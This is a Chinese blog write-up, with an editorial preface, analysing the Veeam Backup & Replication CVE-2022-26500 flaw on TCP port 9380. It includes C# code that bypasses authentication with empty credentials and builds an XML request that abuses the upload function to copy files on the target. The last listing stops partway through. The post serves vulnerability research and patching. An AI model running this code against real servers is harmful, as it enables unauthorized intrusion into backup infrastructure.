# CVE-2022-26500 Veeam Backup and Replication RCE - Y4er的博客

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：TCP9380可达、Distribution服务受影响；作者链额外安装Enterprise Manager并能读其web.config及访问WebApp
- 证据范围：细致跟踪压缩XML分发和本机文件复制；作者明确文件内容不可控，后用machineKey构造ViewState，保留独立研究思路

### 已有来源支持的更正

- 官方共同列26500/26501，TCP9380未认证内部API；修复11a P20220302和10a P20220304，9.5须升级；不能仅按11.0.1.1261数值判断

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 代码行号黏在语句前并含损坏字符，需作为节选规范化
- 应前置Enterprise Manager额外条件，非任何部署可直接复用此ViewState链
- 正文/标题仅26500无法准确拆解KB中两个CVE职责
- 完整命名空间/依赖及工具参数需校对

### 核验来源

- https://www.veeam.com/kb4288

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [y4er.com](https://y4er.com/post/cve-2022-26500-veeam-backup-replication-rce/)

看推特又爆了cve，感觉挺牛逼的洞，于是分析一手。

官方公告[](#官方公告)
=============

[https://www.veeam.com/kb4288](https://www.veeam.com/kb4288)

> The Veeam Distribution Service (TCP 9380 by default) allows unauthenticated users to access internal API functions. A remote attacker may send input to the internal API which may lead to uploading and executing of malicious code.

漏洞描述说是tcp9380服务出了问题，直接分析就行了。

环境[](#环境)
=========

[VeeamBackup & Replication_11.0.1.1261_20211211.iso](https://download2.veeam.com/VBR/v11/VeeamBackup&Replication_11.0.1.1261_20211211.iso)

还有补丁包VeeamBackup&Replication_11.0.1.1261_20220302.zip的[下载地址](https://download2.veeam.com/VBR/v11/VeeamBackup&Replication_11.0.1.1261_20220302.zip)

搭建过程就不说了，[参考官方文档](https://helpcenter.veeam.com/docs/backup/vsphere/install_vbr.html?ver=110)

**需要注意的是1和2都需要装**



分析[](#分析)
=========

在我分析的时候遇到了几个问题，最关键的就是怎么构造参数通过tcp传递给服务器，踩了很多坑，接下来的分析我分为三部分写。

寻找漏洞点[](#寻找漏洞点)
---------------

先找到9380端口占用的程序



定位到`Veeam.Backup.Agent.ConfigurationService.exe`



发现是个服务程序



在OnStart中监听两个端口



_negotiateServer监听9380 _sslServer监听9381，接下来是tcp编程常见的写法，开线程传递委托，最终处理函数为

`Veeam.Backup.ServiceLib.CInvokerServer.HandleTcpRequest(object)`，在这个函数中有鉴权处理



跟入 `Veeam.Backup.ServiceLib.CForeignInvokerNegotiateAuthenticator.Authenticate(Socket)`



这个地方的鉴权可以被绕过，使用空账号密码来连接即可，绕过代码如下

```
 1internal class Program
 2{
 3    static TcpClient client = null;
 4    static void Main(string[] args)
 5    {
 6        IPAddress ipAddress = IPAddress.Parse("172.16.16.76");
 7        IPEndPoint remoteEP = new IPEndPoint(ipAddress, 9380);�
 8        client = new TcpClient();
 9        client.Connect(remoteEP);
10        Console.WriteLine("Client connected to {0}.", remoteEP.ToString());
11
12        NetworkStream clientStream = client.GetStream();
13        NegotiateStream authStream = new NegotiateStream(clientStream, false);
14        try
15        {
16            NetworkCredential netcred = new NetworkCredential("", "");
17            authStream.AuthenticateAsClient(netcred, "", ProtectionLevel.EncryptAndSign, TokenImpersonationLevel.Identification);
18        }
19        catch (Exception e)
20        {
21            Console.WriteLine(e);
22        }
23        finally
24        {
25            authStream.Close();
26        }
27        Console.ReadKey();
28    }
29} 
```

csharp

dnspy附加进程调试之后，发现成功绕过鉴权返回result



接着跟入又是tcp编程的写法，异步callback，关键函数在`Veeam.Backup.ServiceLib.CInvokerServer.ExecThreadProc(object)`



tcp压缩数据流通过ReadCompressedString读出字符串，然后通过`CForeignInvokerParams.GetContext(text)`获取上下文，然后交由`this.DoExecute(context, cconnectionState)`进行分发调用。

在GetContext函数中

```
1public static CSpecDeserializationContext GetContext(string xml)
2{
3    return new CSpecDeserializationContext(xml);
4} 
```

csharp

将字符串交给CSpecDeserializationContext构造函数



说明我们向服务端发送的tcp数据流应该是一个压缩之后的xml字符串，需要正确构造xml。那么需要什么样格式呢？

先来看DoExecute()



GetOrCreateExecuter()是拿到被执行者Executer



根据传入参数不同分别返回三个不同的Executer

1.  CInvokerServerRetryExecuter 重试Executer
2.  CInvokerServerAsyncExecuter 异步Executer
3.  CInvokerServerSyncExecuter 同步Executer

获取到Executer之后进入Executer的Execute()函数，Execute()来自于IInvokerServerExecuter接口，分析实现类刚好就是上面的三个类



在CInvokerServerSyncExecuter同步执行类的Execute函数中，调用`this._specExecuter.Execute(context, state)`继续往下分发



而_specExecuter字段的类型也是一个接口IInvokerServerSpecExecuter，有三个实现类。



在`Veeam.Backup.EpAgent.ConfigurationService.CEpAgentConfigurationServiceExecuter.Execute(CSpecDeserializationContext, CConnectionState)`中可以很敏感的看到upload相关的东西

```
 1private string Execute(CForeignInvokerParams invokerParams, string certificateThumbprint, string remoteHostAddress)
 2{
 3    CConfigurationServiceBaseSpec cconfigurationServiceBaseSpec = (CConfigurationServiceBaseSpec)invokerParams.Spec;
 4    CInputXmlData cinputXmlData = new CInputXmlData("RIResponse");
 5    cinputXmlData.SetBool("PersistentConnection", true);
 6    string text = ((EConfigurationServiceMethod)cconfigurationServiceBaseSpec.Method).ToString();
 7    Log.Message("Command '{0}' ({1})", new object[]
 8    {
 9        text,
10        remoteHostAddress
11    });
12    EConfigurationServiceMethod method = (EConfigurationServiceMethod)cconfigurationServiceBaseSpec.Method;
13    switch (method)
14    {
15    ........省略.......
16    case EConfigurationServiceMethod.UploadManagerGetFolders:
17        CEpAgentConfigurationServiceExecuter.ExecuteUploadManagerGetFolders((CConfigurationServiceUploadManagerGetFolders)cconfigurationServiceBaseSpec, cinputXmlData);
18        goto IL_1B1;
19    case EConfigurationServiceMethod.UploadManagerIsFileInCache:
20        CEpAgentConfigurationServiceExecuter.ExecuteUploadManagerIsFileInCache((CConfigurationServiceUploadManagerIsFileInCache)cconfigurationServiceBaseSpec, cinputXmlData);
21        goto IL_1B1;
22    case EConfigurationServiceMethod.UploadManagerPerformUpload:
23        CEpAgentConfigurationServiceExecuter.ExecuteUploadManagerPerformUpload((CConfigurationServiceUploadManagerPerformUpload)cconfigurationServiceBaseSpec, cinputXmlData);
24        goto IL_1B1;
25    default:
26        if (method == EConfigurationServiceMethod.Disconnect)
27        {
28            CEpAgentConfigurationServiceExecuter.ExecuteDisconnect();
29            goto IL_1B1;
30        }
31        break;
32    }
33    throw new Exception("Failed to process command '" + text + "': Executer not implemented");
34    IL_1B1:
35    return cinputXmlData.Serial();
36} 
```

csharp

其中case到UploadManagerPerformUpload时，进入ExecuteUploadManagerPerformUpload函数处理文件上传

```
 1private static void ExecuteUploadManagerPerformUpload(CConfigurationServiceUploadManagerPerformUpload spec, CInputXmlData response)
 2{
 3    string host = spec.Host;
 4    if (!File.Exists(spec.FileProxyPath))
 5    {
 6        throw new Exception(string.Concat(new string[]
 7        {
 8            "Failed to upload file '",
 9            spec.FileProxyPath,
10            "' to host ",
11            host,
12            ": File doesn't exist in cache"
13        }));
14    }
15    string value;
16    if (spec.IsWindows)
17    {
18        if (spec.IsFix)
19        {
20            value = CEpAgentConfigurationServiceExecuter.UploadWindowsFix(spec);
21        }
22        else
23        {
24            if (!spec.IsPackage)
25            {
26                throw new Exception(string.Concat(new string[]
27                {
28                    "Fatal logic error: Failed to upload file '",
29                    spec.FileProxyPath,
30                    "' to host ",
31                    host,
32                    ": Unexpected upload task type"
33                }));
34            }
35            value = CEpAgentConfigurationServiceExecuter.UploadWindowsPackage(spec);
36        }
37    }
38    else
39    {
40        if (!spec.IsLinux)
41        {
42            throw new Exception(string.Concat(new string[]
43            {
44                "Fatal logic error: Failed to upload file '",
45                spec.FileProxyPath,
46                "' to host ",
47                host,
48                ": Unexpected target host type"
49            }));
50        }
51        value = CEpAgentConfigurationServiceExecuter.UploadLinuxPackage(spec);
52    }
53    response.SetString("RemotePath", value);
54} 
```

csharp

分别有三个UploadWindowsFix、UploadWindowsPackage、UploadLinuxPackage函数，跟到UploadWindowsPackage中看到UploadFile函数



在UploadFile函数中将localPath读取然后写入到remotePath中。



如果把远程主机赋值为127.0.0.1，我们就可以在目标机器上任意复制文件。

构造payload[](#构造payload)
-----------------------

在整个调用过程中，我遇到了多个问题，下面分步骤讲解

1.  CForeignInvokerParams.GetContext(text);
2.  GetOrCreateExecuter
3.  Veeam.Backup.EpAgent.ConfigurationService.CEpAgentConfigurationServiceExecuter.Execute(CSpecDeserializationContext, CConnectionState)

在上文分析中我们知道，需要让程序的Executer设置为CInvokerServerSyncExecuter实例。而在GetOrCreateExecuter取Executer实例时是根据CForeignInvokerParams.GetContext(text)的值来决定的。上文追溯到了这里CSpecDeserializationContext的构造函数


几个必填字段

1.  FIData
2.  FISpec
3.  FISessionId

```
1CInputXmlData FIData = new CInputXmlData("FIData");
2CInputXmlData FISpec = new CInputXmlData("FISpec");
3FISpec.SetGuid("FISessionId", Guid.Empty);
4FIData.InjectChild(FISpec); 
```

csharp

将FISessionId赋值为Guid.Empty即可拿到CInvokerServerSyncExecuter

接着来看还需要什么，在 `Veeam.Backup.EpAgent.ConfigurationService.CEpAgentConfigurationServiceExecuter.Execute(CSpecDeserializationContext, CConnectionState)` 中

```
1public string Execute(CSpecDeserializationContext context, CConnectionState state)
2{
3    return this.Execute(context.GetSpec(new CCommonForeignDeserializationContextProvider()), state.FindCertificateThumbprint(), state.RemoteEndPoint.ToString());
4} 
```

csharp

context.GetSpec()函数是重要点。



他将传入的`this._specData`也就是我们构造的xml数据进行解析，跟进去看看

```
 1public static CForeignInvokerSpec Unserial(COutputXmlData datas, IForeignDeserializationContextProvider provider)
 2{
 3    EForeignInvokerScope scope = CForeignInvokerSpec.GetScope(datas);
 4    CForeignInvokerSpec cforeignInvokerSpec;
 5    if (scope <= EForeignInvokerScope.CatIndex)
 6    {
 7        ......
 8    }
 9    else if (scope <= EForeignInvokerScope.Credentials)
10    {
11        if (scope == EForeignInvokerScope.DistributionService)
12        {
13            cforeignInvokerSpec = CConfigurationServiceBaseSpec.Unserial(datas);
14            goto IL_240;
15        }
16        ...
17    }
18    .....
19    throw ExceptionFactory.Create("Unknown invoker scope: {0}", new object[]
20    {
21        scope
22    });
23    IL_240:
24    cforeignInvokerSpec.SessionId = datas.GetGuid("FISessionId");
25    cforeignInvokerSpec.ReusableConnection = datas.FindBool("FIReusableConnection", false);
26    cforeignInvokerSpec.RetryableConnection = datas.FindBool("FIRetryableConnection", false);
27    return cforeignInvokerSpec;
28} 
```

csharp

先从xml中拿一个FIScope标签，并且要是EForeignInvokerScope枚举的值之一



case FIScope标签之后会判断不同分支，返回不同的实例，而在`Veeam.Backup.EpAgent.ConfigurationService.CEpAgentConfigurationServiceExecuter.Execute(CForeignInvokerParams, string, string)`中我们需要的是CConfigurationServiceBaseSpec实例，因为这个地方进行了强制类型转换



所以我们再写入一个xml标签，EForeignInvokerScope.DistributionService值为190

```
1FISpec.SetInt32("FIScope", 190); 
```

csharp

除此之外还需要case一个FIMethod来进入UploadManagerPerformUpload上传的逻辑。

```
1FISpec.SetInt32("FIMethod", (int)EConfigurationServiceMethod.UploadManagerPerformUpload); 
```

csharp

接下来就是上传的一些参数，我这里就不再继续写了，通过CInputXmlData和CXmlHelper2两个工具类可以很方便的写入参数。

最终构造

```
 1internal class Program
 2{
 3static TcpClient client = null;
 4static void Main(string[] args)
 5{
 6    IPAddress ipAddress = IPAddress.Parse("172.16.16.76");
 7    IPEndPoint remoteEP = new IPEndPoint(ipAddress, 9380);
 8    client = new TcpClient();
 9    client.Connect(remoteEP);
10    Console.WriteLine("Client connected to {0}.", remoteEP.ToString());
11
12    NetworkStream clientStream = client.GetStream();
13    NegotiateStream authStream = new NegotiateStream(clientStream, false);
14    try
15    {
16        NetworkCredential netcred = new NetworkCredential("", "");
17        authStream.AuthenticateAsClient(netcred, "", ProtectionLevel.EncryptAndSign, TokenImpersonationLevel.Identification);
18        CInputXmlData FIData = new CInputXmlData("FIData");
19        CInputXmlData FISpec = new CInputXmlData("FISpec");
20        FISpec.SetInt32("FIScope", 190);
21        FISpec.SetGuid("FISessionId", Guid.Empty);
22        //FISpec.SetInt32("FIMethod", (int)EConfigurationServiceMethod.UploadManagerGetFolders);
23        FISpec.SetInt32("FIMethod", (int)EConfigurationServiceMethod.UploadManagerPerformUpload);
24        FISpec.SetString("SystemType", "WIN");
25        FISpec.SetString("Host", "127.0.0.1");
26        IPAddress[] HostIps = new IPAddress[] { IPAddress.Loopback };
27        FISpec.SetStrings("HostIps", ConvertIpsToStringArray(HostIps));
28        FISpec.SetString("User", SStringMasker.Mask("", "{e217876c-c661-4c26-a09f-3920a29fc11f}"));
29        FISpec.SetString("Password", SStringMasker.Mask("", "{e217876c-c661-4c26-a09f-3920a29fc11f}"));
